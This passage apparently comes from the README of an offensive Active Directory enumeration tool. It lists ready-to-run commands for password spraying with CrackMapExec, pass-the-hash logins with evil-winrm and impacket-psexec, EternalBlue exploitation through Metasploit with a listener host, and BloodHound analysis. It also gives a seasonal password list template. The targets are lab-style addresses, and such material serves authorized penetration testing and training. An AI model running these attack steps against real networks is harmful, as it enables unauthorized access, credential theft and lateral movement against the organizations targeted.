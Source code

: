 ### 2. Password Spraying
```bash
# Generated spray script usage
cd enumpath_*/credentials/
./spray.sh

# Manual spray with CrackMapExec
crackmapexec smb 10.10.10.100 -u users.txt -p passwords.txt --continue-on-success
```

### 3. Pass-the-Hash
```bash
# Using dumped hashes
evil-winrm -i 10.10.10.100 -u administrator -H <NTLM_HASH>
impacket-psexec administrator@10.10.10.100 -hashes <LM:NTLM>
```

### 4. Exploitation
```bash
# Use generated Metasploit script
msfconsole -r enumpath_*/exploitation/exploit.rc

# Manual exploitation
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.100
set LHOST 10.10.14.1
exploit
```

### 5. BloodHound Analysis
```bash
# Start Neo4j database
sudo neo4j console

# Start BloodHound GUI
bloodhound

# Import collected data
Upload enumpath_*/bloodhound/*.zip files
```

---

## 💡 Advanced Usage

### Custom Password Lists
```python
# Edit the generate_password_list() method to add custom passwords
passwords = [
    'CompanyName2024!',
    'SeasonYear!',
    # Add your custom passwords here
]
```

